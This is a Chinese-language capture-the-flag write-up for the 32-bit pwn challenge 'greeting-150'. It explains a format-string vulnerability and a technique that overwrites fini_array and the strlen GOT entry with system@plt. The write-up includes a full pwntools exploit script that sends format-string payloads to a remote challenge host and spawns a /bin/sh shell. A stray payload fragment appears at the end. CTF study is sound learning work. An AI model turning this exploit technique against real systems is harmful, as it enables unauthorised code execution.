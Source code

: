 # greeting-150  
32位程序，没开RELRO，说明1可以淦got表，没开pie说明可以随便打    
![](./pics/chc.png)  
在main函数中存在格式化字符串漏洞，可以实现任意地址写  
## 解题思路  
由于程序中存在system函数，可以想让strlen.got处的值变为system.plt，就能在调用strlen时实际调用system函数了  
但是由于执行到格式化字符串后程序直接退出了，因此需要让程序执行完main后重新回到main函数开头  
为此我们需要先知道main函数的调用过程  
在start函数中，会有init_array与fini_array两个数组，他们都保存着一些函数的地址，并且在调用main之前依次调用init_array中的函数，并在main函数结束后依次调用fini_array中的函数  
![](./pics/start.png)  
![](./pics/init_fini_array.png)  
使用pwndbg查看  
![](./pics/fini_in_gdb.png)
因此把fini_array中的函数地址改为main函数地址（最后一字节改为0xed即可）后就能重复调用main了，这种做法感觉挺有用，需要额外注意一下。  
## 解题过程  
首先payload需要有2字节进行对齐（字符串s的开头是Nice to meet you, ），调试后发现第一个参数对应的索引为12，后面都没什么难度，直接放改完后的情况  
![](./pics/finish1.png)  
![](./pics/finish2.png)  
PS:这里很多博客都在人云亦云，说什么一定要按填充字符数从小到大的顺序，其实并不需要，我这里注释掉的部分和实际写的部分就是可以互相替换的。  
```
from pwn import *
context.log_level = 'debug'

if len(sys.argv) == 1 or sys.argv[1] == 'l':
    p = process('./greeting-150')
    elf = ELF('./greeting-150')
else:
    p = remote('61.147.171.105', 51865)
    elf = ELF('./greeting-150') 
    pause()
p.recvuntil(b'name... ')
pause()
# 字符串起始位置对应第12个参数
fini_got=0x8049934
getlen_got=0x8049a54
# payload=b'aa'
# payload+=p32(fini_got)+p32(getlen_got+2)+p32(getlen_got)
# payload+=b'%205c%12$hhn%1815c%13$hn%31884c%14$hn'
payload=b'aa'
payload+=p32(fini_got)+p32(getlen_got+2)+p32(getlen_got)
payload+=b'%205c%12$hhn%33699c%14$hn%33652c%13$hn'

p.sendline(payload)
p.recvuntil(b'name... ')
p.sendline(b'/bin/sh\x00')

p.interactive()
```



'%205c%12$hn'+'vvvvv'+p64(0x04028c50)